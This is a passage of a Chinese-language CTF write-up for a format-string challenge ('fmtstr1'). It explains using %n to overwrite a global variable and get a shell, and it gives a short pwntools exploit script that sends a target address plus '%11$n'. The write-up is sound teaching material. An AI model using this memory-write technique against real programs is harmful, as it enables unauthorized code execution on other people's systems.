 + 这道题要将 `x` 改为4，那么我们可以将**格式化字符串的格式** 的前4个字节设置为将要修改的数值的地址，然后通过 `%n` 将这个地址（存放的是x的值）里面的数值改为 `4` 这样就可以达到我们的目的。而具体 **格式化字符串这个格式字符串** 存放在栈的哪个位置，换算一下是 `printf` 的第几个参数，要通过 `gdb` 调试得到。

  ![image-20201022210004901](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed/image-20201022210004901.png)

  于是我们通过 `%n` 将 `x` 存放的地址的值改为 `4` ，就可以 `getshell` 。

+ `exp` 如下

  ```python3
  from pwn import *
  
  io = process("./fmtstr1")
  
  elf = ELF("./fmtstr1")
  
  payload = flat([p32(0x0804A02C), b"%11$n"])
  
  io.send(payload)
  
  io.interactive()
  ```

  